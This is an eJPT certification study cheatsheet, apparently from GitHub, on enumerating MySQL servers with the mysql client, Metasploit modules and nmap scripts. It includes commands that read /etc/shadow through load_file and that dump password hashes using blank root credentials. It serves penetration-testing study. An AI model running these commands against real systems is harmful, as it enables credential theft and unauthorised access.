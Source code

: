 # eJPT Cheatsheet

**exam prep**
# Table of Contents
https://github.com/jazzsimmonds/ejpt/blob/main/README.md#mysql

# Assessment Methodologies
## Information Gathering
## Footprinting and Scanning
## Enumuration
### MySQL
<details>
<summary>MySQL</summary>
    
    ```Connect
    mysql -h <ip address> -u <username>
    -p ~ password login
    
    ```Queries
    > SHOW databases;
    > SHOW tables FROM databases;
    > USE database;
    > SELECT * FROM table;

    Dump number of records in table:
    >SELECT count(*) FROM table;
    
    Get password hash:
    > select load_file("/etc/shadow");
    > load_file("/etc/shadow");
    ```
</details>
<details>
<summary>Metaploit</summary>
    
    ```
    auxiliary/scanner/mysql/mysql_schemadump
    auxiliary/scanner/mysql/mysql_writable_dirs
        >  DIR_LIST /usr/share/metasploit-framework/data/wordlists/directory.txt
    auxiliary/scanner/mysql/mysql_file_enum
        > FILE_LIST /usr/share/metasploit-framework/data/wordlists/sensitive_files.txt
    auxiliary/scanner/mysql/mysql_hashdump
    ```
</details>

<details>
<summary>nmap</summary>
    
    ```scripts
    Check for anonymous login: --script=mysql-empty-password 
    Check if “InteractiveClient” capability is supported: --script=mysql-info
    Enumurate users: --script=mysql-users --script-args="mysqluser='root',mysqlpass=''"
    Enumurate DBs: --script=mysql-databases --script-args="mysqluser='root',mysqlpass=''" 
    Find Data Dir: --script=mysql-variables --script-args="mysqluser='root',mysqlpass=''" 
    Check if file privs can be granted for non-admin acc: --script=mysql-audit 
    --script-args="mysql-audit.username='root',mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'"
    Dump user hashs: --script mysql-dump-hashes --script-args="username='root',password=''"
    Find number of records stored in table: --script=mysql-query --script-args="query='select count(*) from books.authors;',username='root',password=''"

    ```Example
     nmap --script=mysql-users --script-args="mysqluser='root',mysqlpass=''" -p 3306 192.71.145.3
    ```
</details>
<aside>
💡 For Finding all important files in Windows:(CTF Style)

`cd c:\Users` then
`tree /F`

</aside>

## Vulnerability Assessment
